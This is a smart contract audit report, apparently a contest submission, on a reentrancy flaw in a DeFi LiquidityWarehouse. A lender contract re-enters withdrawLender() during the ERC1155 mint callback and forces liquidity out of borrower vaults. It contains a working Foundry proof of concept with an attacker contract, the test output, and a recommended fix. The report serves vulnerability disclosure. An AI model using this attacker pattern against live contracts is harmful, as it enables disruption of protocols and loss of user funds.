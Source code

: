 # Title
While doing a deposit, lenders can reenter the withdrawLender() while their LENDER_LP_TOKENS are been minted to force the LiquidityWarehouse to withdraw the liquidity from the withdrawTargets

## Summary
Malicious users can trick the LiquidityWarehouses to withdraw liquidity from the borrower's vaults as if the LW contract had been deactivated.

## Vulnerability Detail
When a lender does a deposit using the [`LiquidityWarehouse.depositLender() function`](https://github.com/sherlock-audit/2023-12-copra-finance-stalinMacias/blob/main/copra-v3-audit-1/src/LiquidityWarehouse.sol#L136-L155), the LiquidityWarehouse contract mints an equivalent amount LENDER_LP_TOKENS to the depositor for the amount of asset been deposited. When the LP_TOKENS are been minted, the [`ERC1155._mint() function`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/281550b71c3df9a83e6b80ceefc700852c287570/contracts/token/ERC1155/ERC1155.sol#L263-L278) runs a couple of checks to validate that the LP_TOKENS were received, one of those checks is to **[call the `onERC1155Received() function`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/281550b71c3df9a83e6b80ceefc700852c287570/contracts/token/ERC1155/ERC1155.sol#L447-L466)** on the depositor's account if the depositor is a contract.
- When the execution is forwarded to the caller, the caller contract can re-enter the [`LiquidityWarehouse.withdrawLender() function`](https://github.com/sherlock-audit/2023-12-copra-finance-stalinMacias/blob/main/copra-v3-audit-1/src/LiquidityWarehouse.sol#L179-L201). **The problem here is that the amount of assets been deposited has not been transfered into the LW contract (the assets to be deposited are pulled after the LP_TOKENS are minted)**. So, when the caller contract re-enters the [`LiquidityWarehouse.withdrawLender() function`](https://github.com/sherlock-audit/2023-12-copra-finance-stalinMacias/blob/main/copra-v3-audit-1/src/LiquidityWarehouse.sol#L179-L201), the LW will be forced to withdraw the missing liquidity from the specified withdrawTargets, thus, pulling the liquidity from the borrower's vaults, thus, stopping the yield accrual process for all the amount of withdrawn liquidity.

I coded a PoC using the [`SteadefiIntegrationTest.t.sol`](https://github.com/sherlock-audit/2023-12-copra-finance-stalinMacias/blob/main/copra-v3-audit-1/test/integration/SteadefiIntegrationTest.t.sol) test file, help me to add the below changes on this test file:

<details>
<summary><b>Coded PoC</b></summary>

```solidity
...

+ import {console2} from "forge-std/Test.sol";

...

contract SteadefiIntegrationTest_WhenLiquidityDeployed is SteadefiIntegrationTest {

  ...

  function test_ReenterWithdrawLenderWhileDepositingPoC() public {
        //@audit-info => LENDER_ONE has alrady deposited on the LW, and that liquidity has been distributed to the borrower's vaults!

        uint256 assetValueDeployedBeforeOnETH_USDC = s_usdcLw.getDeployedAssetValue(ETH_USDC_USDC_LENDING_VAULT);

        address maliciousContract = address(new AttackerContract(address(s_usdcLw)));

        changePrank(USDC_WHALE);
        s_usdc.transfer(maliciousContract, LENDER_USDC_DEPOSIT_AMOUNT);

        uint256 attackerLoanTokenBalanceBefore = s_usdc.balanceOf(address(maliciousContract));

        changePrank(maliciousContract);
        s_usdc.approve(address(s_usdcLw), LENDER_USDC_DEPOSIT_AMOUNT);
        s_usdcLw.depositLender(LENDER_USDC_DEPOSIT_AMOUNT / 2);

        uint256 attackerLoanTokenBalanceAfter = s_usdc.balanceOf(address(maliciousContract));
        assert(s_usdcLw.balanceOf(maliciousContract, s_usdcLw.LENDER_LP_TOKEN_ID()) == 0);

        uint256 assetValueDeployedAfterOnETH_USDC = s_usdcLw.getDeployedAssetValue(ETH_USDC_USDC_LENDING_VAULT);

        console2.log("assetValueDeployedBeforeOnETH_USDC: ", assetValueDeployedBeforeOnETH_USDC);
        console2.log("assetValueDeployedAfterOnETH_USDC : ", assetValueDeployedAfterOnETH_USDC);

        assert(assetValueDeployedAfterOnETH_USDC < assetValueDeployedBeforeOnETH_USDC);
  }

}

//@audit-info => Add the below lines of code at the end in the same file!

import {IntegrationTestConstants} from "./IntegrationTestConstants.t.sol";

interface IERC1155Receiver {
    function onERC1155Received(
        address operator,
        address from,
        uint256 id,
        uint256 value,
        bytes calldata data
    ) external returns (bytes4);
}
contract AttackerContract is IntegrationTestConstants {
    SteadefiLiquidityWarehouse internal s_usdcLw;

    constructor(address liquidityWharehouse) {
        s_usdcLw = SteadefiLiquidityWarehouse(liquidityWharehouse);
    }

    function onERC1155Received(address, address, uint256, uint256, bytes calldata) external returns (bytes4) {
        if(msg.sender == address(s_usdcLw)) {
            uint256 LENDER_LP_TOKEN_ID = 0;
            uint256 totalShares = s_usdcLw.balanceOf(address(this), LENDER_LP_TOKEN_ID);

            address[] memory withdrawTargets = new address[](1);
            withdrawTargets[0] = ETH_USDC_USDC_LENDING_VAULT;
            s_usdcLw.withdrawLender(totalShares,withdrawTargets,bytes(""));
        }         
        return IERC1155Receiver.onERC1155Received.selector;
    }
}
```
<br>
</details>

<br>

**Before running the PoC**, help me to add this helper function on the [`LiquidityWarehouse contract`](https://github.com/sherlock-audit/2023-12-copra-finance-stalinMacias/blob/main/copra-v3-audit-1/src/LiquidityWarehouse.sol), it is used on the PoC to query the exact liquidity that is deployed on a specific vault
```solidity
abstract contract LiquidityWarehouse ... {
  ...
  ...
  ...

  //@audit-info => Add this helper function before running the PoC!
  function getDeployedAssetValue(address withdrawTarget) external view virtual returns (uint256) {
      return _getDeployedAssetValue(withdrawTarget);
  }
}
```

<br>

Run the test with the following command: `forge test --match-test test_ReenterWithdrawLenderWhileDepositingPoC -vvv`
- Expected output after running the PoC
<details>
<summary><b>PoC Output</b></summary>

```solidity
Ran 1 test for test/integration/SteadefiIntegrationTest.t.sol:SteadefiIntegrationTest_WhenLiquidityDeployed
[PASS] test_ReenterWithdrawLenderWhileDepositingPoC() (gas: 720694)
Logs:
  assetValueDeployedBeforeOnETH_USDC:  2999997933
  assetValueDeployedAfterOnETH_USDC :  1894734775

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 838.45ms (2.58ms CPU time)

Ran 1 test suite in 2.56s (838.45ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
<br>

</details>


## Impact
By withdrawing liquidity from the borrower's vaults, the accrual yield process is interrumpted because the liquidity is pulled out from the vaults where is generating yield and is left in the LW where is doing nothing, this causes the borrower to earn less yield because the interests on the lender's deposits are still accruing even though the liquidity is not actively generating yield (it could also cause that the borrower needs to cover the generated interests on the lender deposits if the interests to pay are greater than the generated yield on the vaults).

## Code Snippet

https://github.com/sherlock-audit/2023-12-copra-finance-stalinMacias/blob/main/copra-v3-audit-1/src/LiquidityWarehouse.sol#L143-L148

https://github.com/sherlock-audit/2023-12-copra-finance-stalinMacias/blob/main/copra-v3-audit-1/src/LiquidityWarehouse.sol#L179-L201

https://github.com/OpenZeppelin/openzeppelin-contracts/blob/281550b71c3df9a83e6b80ceefc700852c287570/contracts/token/ERC1155/ERC1155.sol#L447-L466

## Tool used
Manual Review & Foundry to code the PoC

## Recommendation
The fix for this issue is to add the `nonReentrant()` modifier to the [`LiquidityWarehouse.withdrawLender() function`](https://github.com/sherlock-audit/2023-12-copra-finance-stalinMacias/blob/main/copra-v3-audit-1/src/LiquidityWarehouse.sol#L179-L201). In this way, it will be impossible to reenter the function while the LENDER_LP_TOKENS are been minted for a lender's deposit. Also, I'd recommend to follow the CEI pattern when doing deposits, first pull the assets from the depositor and then mint the LP_TOKENS.

```solidity
+ function withdrawLender(uint256 shareAmount, address[] calldata withdrawTargets, bytes calldata data) external nonReentrant {
      ...
  }


  function depositLender(uint256 depositAmount) external whenNotPaused nonReentrant {
      ...

+     s_terms.asset.safeTransferFrom(msg.sender, address(this), depositAmount);

      _mint(
          msg.sender,
          LENDER_LP_TOKEN_ID,
          _convertToShares(totalSupply(LENDER_LP_TOKEN_ID), totalAssetAmount, depositAmount),
          bytes("")
      );
-     s_terms.asset.safeTransferFrom(msg.sender, address(this), depositAmount);

      ...
  }
```